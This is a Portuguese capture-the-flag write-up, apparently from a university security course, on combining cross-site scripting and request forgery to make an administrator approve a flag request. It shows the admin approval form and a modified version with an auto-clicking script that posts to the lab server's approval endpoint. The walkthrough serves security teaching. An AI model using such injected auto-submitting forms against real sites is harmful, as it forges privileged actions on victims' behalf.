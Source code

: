 # CTF XSS + CSRF

## 1\. Explorar o servidor web

Inserimos texto aleatório na caixa de input e submetemos o pedido.

![First_Input](images/CTF_XSS_+_CSRF/First_Input.PNG)

Somos então redirecionados para uma nova página que mostrava que o nosso pedido não foi aprovado pelo administrador (não nos seria dada a flag). 

![Justification_Page](images/CTF_XSS_+_CSRF/Justification_Page.PNG)

Esta continha ainda um link (na palavra ```page```) para outra página com dois botões desativados, onde o administrador pode fornecer a flag e marcar o pedido como lido.

![Admin_Page](images/CTF_XSS_+_CSRF/Admin_Page.PNG)

## 2\. Investigar a página do administrador 

Começamos por perceber que esta página está alojada numa porta (5005) diferente da _home page_ (5004).

Ao inspecionarmos os vários elementos desta página, nomeadamente o botão ```Give the flag```, percebemos que a aprovação do pedido da flag é feita através de um form do tipo POST que aprova o pedido tendo em conta o seu id.

```html
<form method="POST" action="/request/2102ce504ff2e7a33cd92544df1d995879df338e/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag" disabled>              
    </div> 
</form>
```

## 3\. Alterações no código

Reaproveitanto o código acima, fizemos três alterações que nos permitiram fazer a aprovação do pedido como administrador através da página inicial (princípios de Cross-site Scripting e Cross-site Request Forgery):
 - Alteramos o url do atributo ```action``` para conter o url completo do servidor uma vez que a porta da página de aprovação visitada pelo administrador é diferente da inicial.
 - Retiramos o atributo ```disabled``` do ```input``` para ativar o botão.
 - Criamos um pequeno script em JavaScript que clica no botão que criamos.

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/id/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">              
    </div> 
</form>

<script> document.getElementById("giveflag").click(); </script>
```

## 4\. Explorar a vulnerabilidade

Após atualizarmos a página, para obter um novo id, submetemos o código alterado, substituindo o ```id``` no url presente no atributo ```action``` do form pelo respetivo id do novo pedido.
Somos redirecionados para uma nova página que fica disponível apenas por muito breves momentos e que logo é substituida pelo seguinte aviso:

![Forbidden](images/CTF_XSS_+_CSRF/Forbidden.PNG)

## 5\. Desativar o JavaScript

Para conseguirmos visualizar a página com cuidado, desativamos o JavaScript do browser utilizado e voltamos a repetir o passo 4.
Após submetermos o pedido, atualizando a página, a flag fica disponível.

![Flag](images/CTF_XSS_+_CSRF/Flag.PNG)
